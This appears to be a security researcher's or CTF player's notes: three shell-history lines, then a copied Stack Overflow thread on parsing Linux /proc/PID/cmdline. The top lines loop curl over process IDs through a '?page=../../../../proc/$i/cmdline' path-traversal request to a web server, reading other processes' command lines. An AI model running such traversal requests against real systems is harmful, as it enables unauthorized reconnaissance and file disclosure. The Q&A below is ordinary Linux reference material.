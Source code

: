 

```
 1683  curl for i in $(seq 444 666); do curl http://THING.EDU:8000/?page=../../../../proc/$i/cmdline -o -; echo "  PID => $i"; done
 1684  for i in $(seq 222 666); do curl http://THING.EDU:8000/?page=../../../../proc/$i/cmdline -o -; echo "  PID => $i"; done\n
 1685  for i in $(seq 222 666); do curl http://THING.EDU:8000/?page=../../../../proc/$i/cmdline -o -; echo "  PID => $i"; done\n

```

##
#
https://stackoverflow.com/questions/1585989/how-to-parse-proc-pid-cmdline
#
##

How to parse /proc/pid/cmdline
Asked 13 years, 4 months ago
Modified 1 year, 8 months ago
Viewed 40k times

23


I'm trying to split the cmdline of a process on Linux but it seems I cannot rely on it to be separated by '\0' characters. Do you know why sometimes the '\0' character is used as separator and sometimes it is a regular space?

Do you know any other ways of retrieving the executable name and the path to it? I have been trying to get this information with 'ps' but it always returns the full command line and the executable name is truncated.

Thanks.

linux
Share
Improve this question
Follow
asked Oct 18, 2009 at 20:46
ryotakatsuki's user avatar
ryotakatsuki
28111 gold badge22 silver badges44 bronze badges
Add a comment
8 Answers
Sorted by:

Highest score (default)

23


use strings

$ cat /proc/self/cmdline | strings -1
cat
/proc/self/cmdline
Share
Improve this answer
Follow
answered Feb 8, 2013 at 1:24
riywo's user avatar
riywo
1,33811 gold badge1111 silver badges1414 bronze badges
For busybox users: cat /proc/self/cmdline | strings -n 1 – 
dubbaluga
 May 31, 2021 at 10:24
Add a comment

20


The /proc/PID/cmdline is always separated by NUL characters.

To understand spaces, execute this command:

cat -v /proc/self/cmdline "a b" "c d e"
EDIT: If you really see spaces where there shouldn't be any, perhaps your executable (intentionally or inadvertently) writes to argv[], or is using setproctitle()?

When the process is started by the kernel, cmdline is NUL-separated, and the kernel code simply copies the range of memory where argv[] was at process startup into the output buffer when you read /proc/PID/cmdline.

Share
Improve this answer
Follow
edited Oct 19, 2009 at 0:39
answered Oct 18, 2009 at 20:53
Employed Russian's user avatar
Employed Russian
192k3131 gold badges289289 silver badges353353 bronze badges
As I said above, while I was explaining the "solution" to a coworker, I realized his cmdlines wasn't behave like I was expecting. We both are using Ubuntu, so I don't know if this is a behavior that can be configured or depends on the Kernel used. – 
ryotakatsuki
 Oct 18, 2009 at 21:26
This is wrong. Sometimes there are spaces separating the arguments - i.e. it's all in argv[0]. I know this because I have see this. – 
camh
 Oct 18, 2009 at 22:23
The mutability of the argument vector by the program is why I objected to your statement. If you hadn't said "always" and emphasised it, I wouldn't have commented. – 
camh
 Oct 19, 2009 at 0:50
Uhm, interesting. I have to check but I believed it happened for all of the processes. I don't remember which was the process I checked. Thanks for the update :) – 
ryotakatsuki
 Oct 19, 2009 at 0:58
I always believed they'd be NUL separated until I found a process where it wasn't. That was postgrey - a perl program using Net::Server which rewrites the command line, all in one argument. – 
camh
 Oct 19, 2009 at 1:02
Show 1 more comment

17


Use

cat /proc/2634/cmdline | tr "\0" " "
to get the args separated by blanks, as you would see it on a command line.

Share
Improve this answer
Follow
answered May 1, 2014 at 18:33
Dag Rende's user avatar
Dag Rende
17911 silver badge33 bronze badges
3
No need to use "cat+tr" when "tr" alone can do it, see @hek2mgl answer. – 
Patrick Allaert
 Feb 23, 2018 at 11:49
Pipe to tr "\0" "\n" if you want each argument on a separate line, which is sometimes useful for readability w/ complex command lines. – 
Per Lundberg
 Jun 17, 2022 at 8:37
Add a comment

14


The command line arguments in /proc/PID/cmdline are separated by null bytes. You can use tr to replace them by new lines:

tr '\0' '\n' < /proc/"$PID"/cmdline
Share
Improve this answer
Follow
answered May 24, 2016 at 9:28
hek2mgl's user avatar
hek2mgl
149k2828 gold badges242242 silver badges263263 bronze badges
3
vendor boxes don't always have 'strings', they often have 'tr'. – 
jouell
 Jun 28, 2019 at 14:44
Add a comment

4


A shot in the dark, but is it possible that \0 is separating terms and spaces are separating words within a term? For example,

myprog "foo bar" baz
might appear in /proc/pid/cmdline as...

/usr/bin/myprog\0foo bar\0baz
Complete guess here, I can't seem to find any spaces on one of my Linux boxes.

Share
Improve this answer
Follow
answered Oct 18, 2009 at 20:52
Jed Smith's user avatar
Jed Smith
15.4k77 gold badges5252 silver badges5959 bronze badges
1
Hi. As you mention, spaces are used to separate words in the same term, this was what I was expecting, but I have access to a machine which is using spaces to separate terms too. It was an Ubuntu, don't know which release. – 
ryotakatsuki
 Oct 18, 2009 at 21:21
Add a comment

2


Have a look at my answer here. It covers what I found when trying to do this myself.

Edit: Have a look at this thread on debian-user for a bash script that tries its best to do what you want (look for version 3 of the script in that thread).

Share
Improve this answer
Follow
edited May 23, 2017 at 12:25
Community's user avatar
CommunityBot
111 silver badge
answered Oct 18, 2009 at 22:26
camh's user avatar
camh
40k1313 gold badges6161 silver badges7070 bronze badges
Hi. I'm already doing something similar to track processes by its path, reading the exe symlink, but the big issue is to get the executable name in the cmd. I mean, usually, when you refer to a process executable you say: "I want the PID of emacs" so you expect to find "emacs", not "/usr/bin/emacs22-gtk" as the exe points to. What I haven't taken into account is the '(Deleted)' string reported by readlink. If I could properly split the information in cmdline I could mix its information with the one provided by the 'exe'. In any case, it seems there is not an evident way :). Thanks! – 
ryotakatsuki
 Oct 18, 2009 at 22:55
I added a link to a thread where I posted a script that contains my implementation. It wont handle an executable name with a space in it, but they're rare (so rare that I've never seen one) – 
camh
 Oct 18, 2009 at 23:23
Add a comment

2


Super-simple (but for only one process, not bulk parsing, etc):

$ cat /proc/self/cmdline "a b" "cd e" | xargs -0
How it works: by default, xargs just echo'es its input, and switch -0 allows it to read null-separated lines rather than newline-separated ones.

Share
Improve this answer
Follow
answered Oct 2, 2018 at 21:32
Anthony's user avatar
Anthony
1,8441616 silver badges2121 bronze badges
Add a comment

0


Executable name:

cat /proc/${pid}/comm
Executable path:

readlink -f /proc/${pid}/exe
If you have a recent bash, you can use mapfile to split the command line into its arguments and put them in an array "command_line" like this:

mapfile -d '' -t command_line < "/proc/${pid}/cmdline"
Much more about /proc/ here: proc(5) — Linux manual page
